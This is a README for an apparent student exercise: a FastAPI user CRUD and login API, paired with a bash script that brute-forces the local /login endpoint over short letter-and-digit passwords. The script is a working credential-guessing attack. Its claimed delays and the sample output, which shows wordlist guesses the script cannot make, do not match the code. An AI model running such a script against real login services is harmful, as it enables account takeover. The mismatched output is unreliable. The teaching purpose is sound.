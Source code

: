 <!-- START README -->

# Users CRUD + Controlled Brute-Force (FastAPI)

> **Educational use only.** All tests must be run **only** against this **local** API and with **practice accounts** created for the exercise.

## Requirements
- Python 3.10+
- (Windows) Git Bash or WSL to run `brute.sh`

## Setup
### It is recommended to create a virtual environment:

Windows (PowerShell)

```bash
# In the project folder
py -m venv .venv
.\.venv\Scripts\Activate.ps1
py -m pip install --upgrade pip
py -m pip install -r requirements.txt
```

## Run the API

```bash
py -m uvicorn main:app --reload
```

- Swagger UI: http://127.0.0.1:8000/docs  


> **Note:** The “database” is **in-memory**. If the server reloads (e.g., due to `--reload`), users are cleared and must be created again.

---

## Endpoints

- `POST /users` — create user (receives **plain-text password**)
- `GET /users` — list users (passwords not returned)
- `GET /users/{id}` — get user by id
- `PUT /users/{id}` — update (everything **except** password)
- `DELETE /users/{id}` — delete
- `POST /login` — authenticate (returns only `login successful` or `Invalid credentials`)

### Quick CRUD test (in `/docs`)

**1) POST /users**
```json
{
  "username": "demo",
  "password": "pass123",
  "email": "demo@mail.com",
  "is_active": true
}
```

**2) GET /users** 
    
**3) GET /users/{id} (e.g., {id} = 1)**


**4) PUT /users/{id} (e.g., {id} = 1)**
```json
{
  "email": "new@mail.com",
  "is_active": false
}
```

**5) Username conflict demo**  
Create user `admin`, then:
```json
{ "username": "admin" }
```
on `PUT /users/1` → should respond `username ya existe`.

**6) POST /login**
```json
{
  "username": "demo",
  "password": "pass123"
}
```

If your FastAPI path is defined with `user_id` (as in `/users/{user_id}`), feel free to replace `{id}` with `{user_id}` in the text so it matches your code exactly.


---

## Controlled brute-force (bash)

File: **`brute.sh`** (included). Run in **Git Bash** while the API is running:

```bash
./brute.sh
```
### Controlled brute-force script (what this does)

The script below performs a **controlled** brute-force test **against your own local API**.  
It iterates over a small **charset**, sends a POST to `/login` for each guess, and **stops on the first success**.  
You can safely tweak:
- `API` → URL of your local server (change port if needed)
- `USER` → the username to test (e.g., `demo`, `admin`, `leo`)
- `CHARS` → the candidate characters you want to try (e.g., letters, numbers)
- `MAXLEN` → the maximum password length to try
- `PAUSE_EVERY` and `PAUSE_TIME` → control how often to pause to avoid overloading the API

```bash
# brute.sh — controlled brute-force demo
# How it works:
# 1) Reads candidate passwords from the given charset.
# 2) For each candidate, sends POST /login to your local API.
# 3) If the response contains "login successful", it prints the finding and exits.
# Safety:
# - Small, fixed delay between attempts (sleep 0.2) to avoid overwhelming the API.
# - Intended ONLY for your local practice API and accounts created for this exercise.
# You can change:
# - API:  if your server runs on a different host/port.
# - USER: which username to test (demo/admin/leo/...).
# - CHARS: the character set to use for password combinations (letters, digits).
# - MAXLEN: the maximum password length to try (1–3).

#!/usr/bin/env bash

API="http://127.0.0.1:8000/login"

# Character set (letters + digits)
CHARS=(a b c d e f g h i j k l m n o p q r s t u v w x y z 0 1 2 3 4 5 6 7 8 9)
MAXLEN=3
DELAY=0
PAUSE_EVERY=400
PAUSE_TIME=0.15

USER="$1"        # USER will be taken from the first argument passed to the script

attempts=0
start=$(date +%s)

attempt() {
  pwd="$1"
  attempts=$((attempts+1))

  payload='{"username":"'"$USER"'","password":"'"$pwd"'"}'
  resp=$(curl -s "$API" \
    -H "Content-Type: application/json" \
    --data "$payload")

  echo "[$attempts] '$pwd' -> $resp"

  if [[ "$resp" == *"login successful"* ]]; then
    end=$(date +%s)
    echo "FOUND: password='$pwd' in $attempts attempts, $((end-start))s"
    exit 0
  fi

  
  if (( attempts % PAUSE_EVERY == 0 )); then
    sleep "$PAUSE_TIME"
  fi
}

echo "[*] Brute-force on '$USER' | chars=${CHARS[*]} | maxlen=$MAXLEN"

# len=1
for c1 in "${CHARS[@]}"; do
  attempt "$c1"
done

# len=2
if [ "$MAXLEN" -ge 2 ]; then
  for c1 in "${CHARS[@]}"; do
    for c2 in "${CHARS[@]}"; do
      attempt "$c1$c2"
    done
  done
fi

# len=3
if [ "$MAXLEN" -ge 3 ]; then
  for c1 in "${CHARS[@]}"; do
    for c2 in "${CHARS[@]}"; do
      for c3 in "${CHARS[@]}"; do
        attempt "$c1$c2$c3"
      done
    done
  done
fi

echo "NOT found (up to length $MAXLEN). Attempts: $attempts"
exit 1

```

### What to report (example)
- Target user: `admin`  
- Wordlist size: 12  
- Delay between attempts: 0.2 s  
- **Result**: found `secret` in 6 attempts, ~2 s  
- Conclusion: weak/common passwords are cracked very quickly.

---

### Sample run (console output)

```bash
$ ./brute.sh
[1] Probando 'pass123' -> {"message":"Invalid credentials"}
[2] Probando '123456'  -> {"message":"Invalid credentials"}
[3] Probando 'admin'   -> {"message":"Invalid credentials"}
[4] Probando 'admin123'-> {"message":"Invalid credentials"}
[5] Probando 'demo'    -> {"message":"Invalid credentials"}
[6] Probando 'secret'  -> {"message":"Invalid credentials"}
[7] Probando 'qwerty'  -> {"message":"Invalid credentials"}
[8] Probando 'password'-> {"message":"Invalid credentials"}
[9] Probando 'adios'   -> {"message":"login successful"}
ENCONTRADA: password='adios' en 9 intentos, 2s
```
---
## Project structure
```
first-term-exam/
├─ main.py           # FastAPI (CRUD + login), in-memory "DB"
├─ brute.sh          # Bash brute-force script (controlled, uses curl)
├─ requirements.txt  # Dependencies
└─ README.md
```

### .gitignore
```gitignore
.venv/
__pycache__/
*.pyc
*.log
.DS_Store
Thumbs.db
```

<!-- END README -->
